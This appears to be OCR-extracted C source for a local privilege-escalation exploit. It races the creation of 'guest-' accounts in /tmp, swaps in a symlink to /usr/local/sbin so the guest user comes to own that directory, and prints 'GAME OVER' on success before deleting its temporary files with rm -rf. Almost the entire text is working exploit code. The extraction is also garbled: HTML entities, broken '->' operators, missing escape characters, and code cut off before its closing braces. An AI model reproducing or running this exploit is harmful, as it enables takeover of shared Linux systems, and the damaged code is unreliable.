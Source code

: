 

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;ctype.h&gt;
#include &lt;sys/inotify.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;pwd.h&gt;
#define EVENT_SIZE(sizeof(struct inotify_event))
#define EVENT_BUF_LEN(1024 * (EVENT_SIZE + 16))
int main(void) {
  struct stat info;
  struct passwd * pw;
  struct inotify_event * event;
  pw = getpwnam("root");
  if (pw == NULL) exit(0);
  char newpath[20] = "old.";
  int length = 0, i, fd, wd, count1 = 0, count2 = 0;
  int a, b;
  char buffer[EVENT_BUF_LEN];
  fd = inotify_init();
  if (fd &lt; 0) exit(0);
  wd = inotify_add_watch(fd, "/tmp/", IN_CREATE | IN_MOVED_FROM);
  if (wd &lt; 0) exit(0);
  chdir("/tmp/");
  while (1) {
    length = read(fd, buffer, EVENT_BUF_LEN);
    if (length &gt; 0) {
      event = (struct inotify_event * ) buffer;
      if (event - &gt; len) {
        if (strstr(event - &gt; name, "guest-") != NULL) {
          for (i = 0; event - &gt; name[i] != ''; i++) {
            event - &gt; name[i] = tolower(event - &gt; name[i]);
          }
          if (event - &gt; mask &amp; IN_CREATE) mkdir(event - &gt; name, ACCESSPERMS);
          if (event - &gt; mask &amp; IN_MOVED_FROM) {
            rename(event - &gt; name, strncat(newpath, event - &gt; name, 15));
            symlink("/usr/local/sbin/", event - &gt; name);
            while (1) {
              count1 = count1 + 1;
              pw = getpwnam(event - &gt; name);
              if (pw != NULL) break;
            }
            while (1) {
              count2 = count2 + 1;
              stat("/usr/local/sbin/", &amp; info);
              if (info.st_uid == pw - &gt; pw_uid) {
                a = unlink(event - &gt; name);
                b = mkdir(event - &gt; name, ACCESSPERMS);
                if (a == 0 &amp;&amp; b == 0) {
                  printf("n[!] GAME OVER !!!n[!] count1: %i count2: %in", count1, count2);
                } else {
                  printf("n[!] a: %i b: %in[!] exploit failed !!!n", a, b);
                }
                system("/bin/rm -rf /tmp/old.*");
                inotify_rm_watch(fd, wd);
                close(fd);
                exit(0);
              }
            }
          }
        }
```